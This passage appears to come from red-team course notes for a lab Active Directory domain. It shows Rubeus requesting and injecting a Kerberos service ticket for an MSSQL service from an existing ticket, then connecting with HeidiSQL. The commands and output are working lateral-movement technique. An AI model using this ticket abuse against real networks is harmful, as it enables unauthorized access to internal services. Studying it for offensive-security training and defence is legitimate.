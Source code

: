 **The spawned process will have no Kerberos tickets in its cache:**

```
PS C:\Windows\system32> klist

Current LogonId is 0:0x260072

Cached Tickets: (0)
```

This method of pivoting prefers the presence of the correct service ticket(s) up front, rather than relying on a single TGT in the cache. &#x20;

**If we want to access the&#x20;**<mark style="color:yellow;">**`SQL-2`**</mark>**&#x20;service through&#x20;**<mark style="color:yellow;">**`HeidiSQL`**</mark>**&#x20;then we need a service ticket for the `MSSQLSvc` service:**

```
PS C:\Windows\system32> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /ticket:doIFzj[...snip...]MuSU8= /service:MSSQLSvc/sql-2.dev.cyberbotic.io:1433 /dc:dc-2.dev.cyberbotic.io /ptt

[*] Action: Ask TGS
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'MSSQLSvc/sql-2.dev.cyberbotic.io:1433'
[*] Using domain controller: dc-2.dev.cyberbotic.io (127.95.0.2)
[+] TGS request successful!
[+] Ticket successfully imported!

PS C:\Windows\system32> klist

Current LogonId is 0:0x260072

Cached Tickets: (1)

#0>     Client: bfarmer @ DEV.CYBERBOTIC.IO
        Server: MSSQLSvc/sql-2.dev.cyberbotic.io:1433 @ DEV.CYBERBOTIC.IO
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 10/11/2023 14:23:52 (local)
        End Time:   10/11/2023 19:22:58 (local)
        Renew Time: 10/18/2023 9:22:58 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

**Launch `HeidiSQL` from the same powershell window:**

```
PS C:\Windows\system32> C:\Tools\HeidiSQL\heidisql.exe
```

**Set the target hostname to&#x20;**<mark style="color:yellow;">**`sql-2.dev.cyberbotic.io`**</mark>**&#x20;and connect:**

![](https://files.cdn.thinkific.com/file_uploads/584845/images/607/fd7/b78/heidi.png)
